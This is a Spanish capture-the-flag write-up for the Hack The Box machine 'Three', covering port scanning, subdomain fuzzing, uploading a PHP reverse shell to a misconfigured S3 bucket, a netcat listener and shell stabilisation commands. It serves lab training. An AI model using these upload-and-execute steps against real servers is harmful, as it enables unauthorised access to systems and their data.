










# Hack The Box - Three Writeup


**Author:** Isaac Muñoz
**Date:** 2025-10-07
**Machine IP:** 10.129.236.31

---

## Introducción

Máquina con un servidor web PHP y un bucket **Amazon S3** expuesto. La cadena de ataque consiste en descubrir el subdominio S3, subir una **reverse shell** en PHP al bucket y ejecutarla desde el navegador.

---

## Enumeración de puertos abiertos con Nmap

### Network Scanning

```bash
nmap -sV -p- --min-rate 5000 10.129.236.31 -oN escaneo
```



Se identifican **2 puertos TCP open**. El foco es el puerto **80/http** según la guía de HTB.

### Resolución DNS local

Al igual que en Responder, se requiere agregar la entrada al archivo `/etc/hosts`:

```bash
echo "10.129.236.31 thetoppers.htb" >> /etc/hosts
```





---

## Fuzzing de subdominios

HTB pide encontrar un subdominio del tipo `?.thetoppers.htb` (2 caracteres). Se probaron varias herramientas — **wfuzz**, **ffuf** y **Gobuster** — siendo esta última la que dio resultado:

```bash
gobuster vhost -u http://thetoppers.htb --wordlist /usr/share/wordlists/dirb/common.txt
```





Subdominio encontrado: **`s3.thetoppers.htb`**

> **¿Qué es S3?** Amazon S3 (*Simple Storage Service*) es un servicio de almacenamiento de objetos de AWS. Un bucket S3 mal configurado puede permitir listar y subir archivos sin autenticación.

---

## Explotación

### Paso 1 - Agregar s3 a /etc/hosts y enumerar el bucket

```bash
echo "10.129.236.31 s3.thetoppers.htb" >> /etc/hosts
```

Instalar el cliente AWS:

```bash
apt install awscli
```

Listar el contenido del bucket:

```bash
aws s3 ls --endpoint-url http://s3.thetoppers.htb
```



### Paso 2 - Crear y subir reverse shell

Se generó un script PHP de reverse shell (usando [revshells.com](https://www.revshells.com)) apuntando a nuestra IP atacante y puerto `4444`. Se guardó como `shell.php`:

```bash
aws s3 cp shell.php s3://thetoppers.htb --endpoint-url http://s3.thetoppers.htb
```





### Paso 3 - Ponerse en escucha

```bash
nc -lvnp 4444
```

- **-l** — modo escucha
- **-v** — verbose
- **-n** — sin resolución DNS
- **-p 4444** — puerto de escucha

### Paso 4 - Ejecutar la shell

Se quitó `s3.` del `/etc/hosts` y se accedió desde el navegador a:

```
http://thetoppers.htb/shell.php
```



Se recibió la conexión y se realizó el **tratamiento de TTY** para obtener una shell interactiva estable:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```



---

## Flag

Con acceso al sistema, se navegó entre los directorios hasta encontrar la flag de HackTheBox.
